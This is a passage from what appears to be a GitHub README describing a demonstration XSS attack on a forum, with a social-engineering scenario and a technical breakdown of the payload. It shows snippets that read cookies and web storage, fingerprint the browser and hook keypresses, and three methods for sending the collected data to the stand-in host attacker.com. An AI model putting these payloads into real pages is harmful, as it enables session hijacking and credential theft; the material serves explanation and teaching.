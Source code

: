 ### **Scenario 4: Social Engineering**
- Attacker claims it's an "important forum update"
- Users visit thinking it's legitimate
- Credentials and sessions are compromised

## Technical Details

### **XSS Payload Components**

1. **Cookie Extraction**:
   ```javascript
   cookies: document.cookie
   ```

2. **Storage Access**:
   ```javascript
   sessionStorage: JSON.stringify(sessionStorage),
   localStorage: JSON.stringify(localStorage)
   ```

3. **Browser Fingerprinting**:
   ```javascript
   userAgent: navigator.userAgent,
   platform: navigator.platform
   ```

4. **Keylogger**:
   ```javascript
   document.addEventListener('keypress', function(e) {
       // Capture keystrokes
   });
   ```

### **Data Exfiltration Methods**

In a real attack, stolen data would be sent to attacker's server:

```javascript
// Method 1: Fetch API
fetch('https://attacker.com/collect', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify(harvestData)
});

// Method 2: Image beacon
new Image().src = 'https://attacker.com/collect?data=' + 
                  encodeURIComponent(JSON.stringify(harvestData));

// Method 3: Form submission
const form = document.createElement('form');
form.method = 'POST';
form.action = 'https://attacker.com/collect';
// Add form fields and submit
```
